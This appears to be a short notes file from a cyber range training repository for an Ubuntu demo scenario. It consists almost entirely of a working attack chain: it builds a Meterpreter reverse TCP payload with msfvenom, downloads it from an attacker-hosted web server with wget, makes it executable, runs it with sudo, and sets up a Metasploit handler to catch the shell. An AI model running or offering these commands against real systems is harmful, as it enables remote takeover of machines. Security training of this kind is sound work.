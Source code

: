 # kypo-crp-demo-training-ubuntu

USE MSFVENOM

(Stageless payload)

msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.50.5 LPORT=6996 -f elf -o /var/www/html/shell-x64.elf

---

wget http://192.168.50.5/shell-x64.elf

chmod +x shell-x64.elf

---

if [ ! -s /home/server/shell-x64.elf ]; then wget -O /home/server/shell-x64.elf http://192.168.50.5/shell-x64.elf; fi

if [ -s /home/server/shell-x64.elf ]; then chmod +x /home/server/shell-x64.elf; fi

---

use exploit/multi/handler

set PAYLOAD linux/x64/meterpreter_reverse_tcp

set LPORT 6996

set LHOST 192.168.50.5

exploit

---

if ! pidof -x /home/server/shell-x64.elf; then sudo /home/server/shell-x64.elf; fi
